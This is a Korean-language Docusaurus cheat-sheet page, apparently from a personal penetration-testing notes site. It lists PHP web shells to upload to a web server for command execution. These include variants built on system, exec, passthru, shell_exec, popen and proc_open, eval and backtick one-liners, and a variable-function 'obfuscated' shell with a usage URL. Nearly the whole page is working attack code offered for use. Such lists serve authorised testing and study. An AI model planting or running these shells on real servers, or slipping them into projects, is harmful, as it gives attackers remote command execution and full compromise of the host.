

repository: naaamgi/my-docusaurus-page · page: cheatsheet/payloads/web-shells/index.html · generator: docusaurus

---
sidebar_position: 3
---

# Web Shells

웹 서버에 업로드하여 명령을 실행할 수 있는 웹셸입니다.

## PHP Web Shells

### 기본

```php
<?php system($_GET['cmd']); ?>
```

### GET 파라미터

```php
<?php
if(isset($_GET['cmd'])) {
    system($_GET['cmd']);
}
?>
```

### POST 파라미터

```php
<?php echo exec($_POST['cmd']); ?>
```

### REQUEST (GET/POST 모두)

```php
<?php passthru($_REQUEST['cmd']); ?>
<?php echo system($_REQUEST['shell']); ?>
```

### 다양한 함수

```php
# system
<?php system($_GET['cmd']); ?>

# exec
<?php echo exec($_GET['cmd']); ?>

# passthru
<?php passthru($_GET['cmd']); ?>

# shell_exec
<?php echo shell_exec($_GET['cmd']); ?>

# popen
<?php
$handle = popen($_GET['cmd'], 'r');
echo fread($handle, 2096);
pclose($handle);
?>

# proc_open
<?php
$descriptorspec = array(
   0 => array("pipe", "r"),
   1 => array("pipe", "w"),
   2 => array("pipe", "w")
);
$process = proc_open($_GET['cmd'], $descriptorspec, $pipes);
echo stream_get_contents($pipes[1]);
proc_close($process);
?>
```

### 한 줄 웹셸들

```php
<?php @eval($_POST['cmd']); ?>
<?php @system($_GET['c']); ?>
<?=`$_GET[x]`?>
<?=$_GET[0]($_GET[1]);?>
```

### 난독화된 웹셸

```php
<?php
$a = $_GET['a'];
$b = $_GET['b'];
$a($b);
?>
// 사용: shell.php?a=system&b=whoami
```
